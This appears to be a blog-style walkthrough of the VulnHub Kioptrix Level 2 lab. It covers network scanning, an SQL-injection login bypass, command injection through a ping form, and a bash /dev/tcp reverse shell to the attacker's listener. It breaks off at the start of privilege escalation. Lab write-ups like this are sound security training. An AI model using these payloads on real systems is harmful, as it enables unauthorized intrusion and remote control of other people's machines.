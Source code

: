 ```yaml
---
layout: post
title: Kioptrix Level 2
---
```

[Kioptrix Level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

## Find IP of box
Our IP: x.x.x.49

`nmap -T5 <LHOST>/24`

Kioptrix is running on: x.x.x.4  

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.4`

 - Default Scripts
 - Service Detection
 - Output all formats
 
 ![Initial NMap Scan](/images/KioptrixL2/NMap1.JPG)

We have 6 ports open: 22 (ssh), 80 (http), 111 (rpcbind), 443 (ssl/https), 631 (ipp), 3306 (mysql)

I'll start with the HTTP port in which we are greeted with an Administration login page.

## HTTP - Port 80
### Gobuster

`gobuster dir -u http://x.x.x.4 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml`

Nothing useful

Same with Dirbuster for recurisve search

### SQL Injection

' or '1'='1

Enter in both Username and Password and we get a login

We see an option to ping a machine on the network which suggests we may have RCE

### RCE Check

I entered the machine IP into the box and it opens a new tab with the ping results. I'm assuming that the command it's running is simply: ping <IP> where the IP is the user entered text.
 
 We know the machine is running on linux so I appened pipe id ( | id) which proves successful.
 
 ![Ping RCE check](/images/KioptrixL2/PingID.JPG)
 
### NetCat
 
 Start a netcat listener on local machine
 
 `nc -lvnp 4444`
 
### RCE Reverse Shell
 
 Grab a reverse shell from (Pentest Monkey's Cheat Sheet)[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet] 
 
 `bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`
 
 I entered `x.x.x.4 | bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1` into the website and we get reverse shell on our local machine as user apache
 
 Spawn a TTY shell using python -c 'import pty; pty.spawn("/bin/sh")' from (Netsec TTY Cheat Sheet)[https://netsec.ws/?p=337]
 
### Privilege Escalation
 
I started 
